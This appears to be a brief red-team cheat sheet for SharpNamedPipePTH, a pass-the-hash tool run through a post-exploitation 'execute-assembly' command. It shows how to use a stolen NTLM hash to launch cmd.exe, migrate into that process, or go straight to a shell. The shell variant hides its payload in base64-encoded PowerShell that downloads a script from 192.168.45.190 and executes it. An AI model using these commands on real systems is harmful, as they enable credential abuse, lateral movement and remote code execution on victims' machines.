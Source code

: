 # SharpNamedPipePTH

### 1) Runs the cmd.exe

    execute-assembly /home/kali/tools/bins/csharp-files/SharpNamedPipePTH.exe username:domain\\user hash:ffffffffffffffffffffffffffffffff binary:C:\\windows\\system32\\cmd.exe

### 2) Find out process launched

    ps -e cmd.exe

### 3) Migrate into the process

    migrate -p 1234

OR Directly get shell

    execute-assembly /home/kali/tools/bins/csharp-files/SharpNamedPipePTH.exe 'username:domain\\user hash:ffffffffffffffffffffffffffffffff binary:"C:\\WINDOWS\\System32\\WindowsPowerShell\\v1.0\\powershell.exe" arguments:"-nop -w 1 -sta -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADEAOQAwAC8AaABhAHYAMABjAC0AcABzAC4AdAB4AHQAJwApACAAfAAgAEkARQBYAA=="'
